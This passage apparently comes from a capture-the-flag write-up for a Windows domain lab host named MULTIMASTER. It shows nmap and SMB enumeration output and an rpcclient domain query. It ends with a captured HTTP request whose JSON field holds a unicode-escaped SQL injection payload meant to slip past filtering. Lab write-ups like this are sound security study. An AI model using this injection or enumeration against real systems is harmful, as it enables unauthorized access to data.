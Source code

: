```text
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=7/19%Time=5F1472C4%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Service Info: Host: MULTIMASTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h35m44s, deviation: 3h07m51s, median: 11m42s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: MULTIMASTER
|   NetBIOS computer name: MULTIMASTER\x00
|   Domain name: MEGACORP.LOCAL
|   Forest name: MEGACORP.LOCAL
|   FQDN: MULTIMASTER.MEGACORP.LOCAL
|_  System time: 2020-07-19T09:34:20-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-07-19T16:34:17
|_  start_date: 2020-07-18T22:51:09

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 486.11 seconds
```

lots of ports open

```text
rpcclient $> lsaquery
Domain Name: MEGACORP
Domain Sid: S-1-5-21-3167813660-1240564177-918740779
```

Capturing the burp request to the `/api/get/Colleagues`

```text
POST /api/getColleagues HTTP/1.1
Host: 10.10.10.179
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.179/
Content-Type: application/json;charset=utf-8
Content-Length: 91
Connection: close
DNT: 1

{"name":"\u0061\u0027\u0020\u006F\u0072\u0020\u0031\u003D\u0031\u003B\u0020\u002D\u002D"}
```
